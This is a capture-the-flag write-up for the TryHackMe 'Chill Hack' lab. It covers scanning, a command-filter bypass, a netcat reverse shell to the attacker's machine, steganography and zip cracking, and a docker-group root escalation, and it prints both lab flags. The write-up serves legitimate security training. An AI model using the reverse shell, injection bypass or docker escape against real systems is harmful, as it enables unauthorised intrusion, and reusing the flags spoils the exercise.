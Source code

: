 Room: https://tryhackme.com/room/chillhack
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
FTP service allows us to connect Anonymously.  
However, there's no useful information that gives us two possible usernames.  

**gobuster** dir -u http://xx.xx.xx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```
/images               (Status: 301) [Size: 313] [--> http://xx.xx.xx.xxx/images/]
/css                  (Status: 301) [Size: 310] [--> http://xx.xx.xx.xxx/css/]   
/js                   (Status: 301) [Size: 309] [--> http://xx.xx.xx.xxx/js/]    
/fonts                (Status: 301) [Size: 312] [--> http://xx.xx.xx.xxx/fonts/] 
/secret               (Status: 301) [Size: 313] [--> http://xx.xx.xx.xxx/secret/]
```

Navigating to **/secret** directory of the page, we find out that the input is filtered.  
We can easily bypass that by using **echo $(cmd)** to run commands.  

We can use this to create a reverse shell to our attacking machine.  
**echo** $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc xx.x.x.xxx 8888 >/tmp/f)

By navigating to **/var/www/files** we can find two php files.  
Inside the **hacker.php** we find some hints.
```
	<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
```

At some point, that image should appear along with the text above.  
This makes me think it has something to do with the image shown.  

We can find the photo at **/var/www/files/images/**.  
I started a python http server and downloaded the photo to my attacking machine.  

Using **steghide** we can find a zip archive embedded in the photo.    
We can extract that with no passphrase.  

**zip2john** backup.zip > hash
**john** hash --wordlist=/usr/share/wordlists/rockyou.txt => pass1word  

Extracting the zip, we are given a **source_code.php** file.  
```
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
```

We can see that is the source code of a poorly coded login portal.  
It gives us the user **Anurodh** and the password **!d0ntKn0wmYp@ssw0rd**.  

**su anurodh**, using the password found earlier.  
This allows us to change the user from **www-data** to **anurodh** on the target machine.  

**anurodh@ubuntu:/home$** id
```
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

Giving the fact that we're in the docker group, the machine is already rooted.  
On the [GTFObins](https://gtfobins.github.io/gtfobins/docker/#sudo) we can find the required command(s) to escalate privileges.   

> docker run -v /:/mnt --rm -it alpine chroot /mnt sh

After some seconds, we're under the root account.

**First flag is at /home/apaar/ and is {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}** **[1]**.   
**Second and final flag is at /root/proof.txt and is {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}** **[2]**.  
